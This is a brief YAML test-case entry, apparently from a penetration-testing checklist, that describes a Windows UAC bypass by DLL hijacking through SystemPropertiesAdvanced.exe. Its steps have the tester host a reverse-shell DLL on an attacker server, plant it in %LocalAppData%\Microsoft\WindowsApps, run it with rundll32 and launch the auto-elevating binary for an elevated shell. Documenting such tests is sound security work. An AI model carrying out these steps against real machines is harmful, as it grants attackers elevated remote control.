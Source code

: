 ```yaml
---
testcase: UAC DLL Hijack via SystemPropertiesAdvanced
platforms:
  - AD
  - Windows
methodology:
  - BlackBox
  - GreyBox
references:
  - https://github.com/hfiref0x/UACME
how-to-test: |
  1. On target, verify UAC is enabled and at highest ConsentPromptBehaviorAdmin level.
  2. Host a malicious srrstr.dll containing a reverse shell payload on an attacker HTTP server.
  3. Download srrstr.dll to %LocalAppData%\Microsoft\WindowsApps on the target.
  4. Execute rundll32 shell32.dll,Control_RunDLL %LocalAppData%\Microsoft\WindowsApps\srrstr.dll to test initial load.
  5. Kill any existing rundll32.exe processes.
  6. Launch C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe to trigger auto-elevation and obtain an elevated shell.
---
```

